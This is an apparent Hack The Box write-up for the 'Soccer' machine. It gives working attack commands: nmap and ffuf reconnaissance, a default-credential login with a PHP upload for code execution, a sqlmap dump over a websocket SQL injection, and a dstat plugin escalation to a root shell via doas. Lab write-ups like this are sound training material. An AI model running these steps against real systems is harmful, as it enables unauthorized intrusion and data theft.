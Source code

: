 ```yaml
---
layout: post
title: "Soccer"
date: 2024-12-28
categories: hackthebox
---
```


first nmap

`sudo nmap -sC -sV -p- -oN soccer -T4 10.10.11.194
`
![[Pasted image 20240524224700.png]]

starting with the web port 80

nothing interesting at the main page let's fuzz
![[Pasted image 20240524224828.png]]

we got tiny
`ffuf -u http://soccer.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -ic
`
![[Pasted image 20240524224903.png]]

we have tiny file manager
![[Pasted image 20240524224934.png]]

a quick google search got as the default creds ==admin admin@123==
we can upload anything we want , so let's upload a php file and get rce 

![[Pasted image 20240524225229.png]]

![[Pasted image 20240524225251.png]]

nothing Interesting , I will run ==linpeas== 

we got another subdomain , listening on port 80 
![[Pasted image 20240524225701.png]]

after adding it to our /etc/hosts file  
![[Pasted image 20240524225753.png]]

same website but new functionality 

let's create new account and login into the app 

we got this /check page , it seems like it's check for a ticket if it's available in the database 

![[Pasted image 20240524230140.png]]

![[Pasted image 20240524230153.png]]

the weird thing is I try to intercept this request but I can't catch it 
![[Pasted image 20240524230353.png]]

if we want to catch this , we need to start intercepting from the beginning , like from the sign-in part that's at least what I learned from watching ippsec solving it 

![[Pasted image 20240524230529.png]]

there's a  boolean injection via this websocket , if the query i correct returns Exists else return doesn't exist
![[Pasted image 20240524230732.png]]
let's use ==sqlmap== to exploit it 
`sqlmap -u ws://soc-player.soccer.htb:9091  --data '{"id":"80989"}' --dbms  mysql --risk 3 --level 5 --batch --dump --thread 10
`
![[Pasted image 20240524230947.png]]

we can ssh as player
![[Pasted image 20240524231335.png]]

`find / -perm -4000 2>/dev/null
`
![[Pasted image 20240524231328.png]]

![[Pasted image 20240524231422.png]]


small research about doas seems like small sudo o something like that 
and we need to find a doas.conf file so we now which command is running 

we can run ==dstat== as root
`cat /usr/local/etc/doas.conf`
![[Pasted image 20240524231722.png]]
https://gtfobins.github.io/gtfobins/dstat/
![[Pasted image 20240524231758.png]]

`echo 'import os; os.execv("/bin/bash", ["bash"])' > /usr/local/share/dstat/dstat_d0s3nt.py`
`doas -u root /usr/bin/dstat --d0s3nt`

![[Pasted image 20240524232504.png]]